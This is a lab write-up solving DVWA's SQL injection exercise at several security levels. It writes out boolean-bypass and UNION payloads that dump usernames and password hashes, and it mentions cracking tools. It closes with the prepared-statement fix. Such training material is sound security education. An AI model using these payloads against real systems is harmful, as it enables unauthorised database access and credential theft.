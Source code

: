 ```yaml
---
description: http://localhost/DVWA/vulnerabilities/sqli/
---
```


# SQL Injection

<details>

<summary>What is a SQL Injection?</summary>

SQL injection is a type of security vulnerability that occurs when an attacker is able to manipulate a SQL query by injecting malicious SQL code into user-input fields or other parameters. This can happen when an application does not properly validate or sanitize user inputs before constructing SQL queries.

SQL injection attacks are most common in web applications that interact with a database. When user inputs are directly concatenated into SQL queries without proper validation, an attacker can input specially crafted strings that alter the intended logic of the SQL query.

</details>

{% hint style="info" %}
Using BurpSuite and the FoxyProxy extension is recommended.
{% endhint %}

## Low

We've an input type text that received an User ID in I by user and submit request using the Submit button:

<figure><img src="../.gitbook/assets/image (220).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (221).png" alt=""><figcaption></figcaption></figure>

This's our request captured by Burp Suite, while here below there's a php source code:

<figure><img src="../.gitbook/assets/image (222).png" alt=""><figcaption><p>localhost/DVWA/vulnerabilities/view_source.php?id=sqli&#x26;security=low</p></figcaption></figure>

How the same in the low level, there're not input sanitation, then we can send what we want into input type text field. In this case request will arrive to DB located into webserver, but query will be preparared using php language.

Analyzing source code, we know that mysql query is:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

#### 1st Payload

Regarding query and that our input type value is insert into $id variable, if we want to see all rows of DB, we need to send a query request always boolean true (e.g. 1=1), in addition we can hide all parts not important using ' character.

Then in this case, we can use following payload: `' OR 1=1 --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' OR 1=1 -- ';
```

in the where condition there're a first search to user with this id '' OR a true condition, plus a comment.

This permit us to see all DB results:

<div align="left">

<figure><img src="../.gitbook/assets/image (223).png" alt=""><figcaption></figcaption></figure>

</div>

#### 2nd Payload

Regarding that query selects: first\_name, last\_name field from users table, we can use [UNION](https://www.w3schools.com/sql/sql\_union.asp) operator to add a new query:  `' UNION select first_name,password from users --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT first_name,password FROM users -- ';
```

<div align="left">

<figure><img src="../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

</div>

We obtain hash of psw to eventually crack using tools such as: [Hashcat](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/hashcat) and [John The Ripper](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/john-the-ripper).

Note: Every `SELECT` statement within `UNION` must have the same number of columns.

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## Medium

Here, there're a select with range (1 to 5) to set User ID.

<div align="left">

<figure><img src="../.gitbook/assets/image (226).png" alt=""><figcaption></figcaption></figure>

</div>

In addition to low level, in the code below there're an escape string control and query variable $ID isn't enclosed by ''.

<figure><img src="../.gitbook/assets/image (227).png" alt=""><figcaption></figcaption></figure>

Our request include an ID + Submit values.

<figure><img src="../.gitbook/assets/image (230).png" alt=""><figcaption></figcaption></figure>

But, we can modify ID value using Burp Suite repeater function:

<figure><img src="../.gitbook/assets/image (231).png" alt=""><figcaption></figcaption></figure>

#### 1st Payload

Remembering that $ID variable isn't enclosed by '', escape string control isn't a matter.

Then in this case, we can use following payload: `1 OR 1=1 --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = 1 OR 1=1 -- ;
```

in the where condition there're a first search to user with this id '' OR a true condition, plus a comment.

<figure><img src="../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

#### 2nd Payload

How the low level, regarding that query selects: first\_name, last\_name field from users table, we can use [UNION](https://www.w3schools.com/sql/sql\_union.asp) operator to add a new query:  1 `UNION select first_name,password from users --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = 1 UNION SELECT first_name,password FROM users -- ';
```

<figure><img src="../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

We obtain hash of psw to eventually crack using tools such as: [Hashcat](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/hashcat) and [John The Ripper](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/john-the-ripper).

Note: Every `SELECT` statement within `UNION` must have the same number of columns.

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## High

In this level clicking on first page, we obtain a redirect to a second page to submit effectively our Session ID:

<figure><img src="../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (229).png" alt=""><figcaption></figcaption></figure>

<div align="left">

<figure><img src="../.gitbook/assets/image (234).png" alt=""><figcaption></figcaption></figure>

</div>

#### 1st Payload

In this case payload is always the same of low level, but we need to add it into second page, infact we've two request (GET and POST)

However, we can use following payload: `1' OR 1=1 --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1=1 -- ';
```

that permit us to see all DB results:

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

#### 2nd Payload

How last levels, we can use [UNION](https://www.w3schools.com/sql/sql\_union.asp) operator to add a new query:  `' UNION select first_name,password from users --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT first_name,password FROM users -- ';
```

<div align="left">

<figure><img src="../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

</div>

We obtain hash of psw to eventually crack using tools such as: [Hashcat](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/hashcat) and [John The Ripper](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/john-the-ripper).

Note: Every `SELECT` statement within `UNION` must have the same number of columns.

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## Impossible

<figure><img src="../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

The best solution is to sanitize query using a prepared statement, to delineate part static and dinamic (id) of query; take a binding parameter to check if is it an integer or char; insert a control to count rows number as result; and use a [CSRF](csrf.md) token.

All this permits to separate sql code with sql data/parameter insert by user.

## References

For the making of this solution the following resource were used:

* [https://github.com/LeonardoE95/DVWA/tree/main/src/sqli](https://github.com/LeonardoE95/DVWA/tree/main/src/sqli)

{% content-ref url="https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/main-contents/15-sql-injection" %}
[15 - SQL Injection](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/main-contents/15-sql-injection)
{% endcontent-ref %}

{% content-ref url="https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/sqlmap" %}
[SQLMap](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/sqlmap)
{% endcontent-ref %}
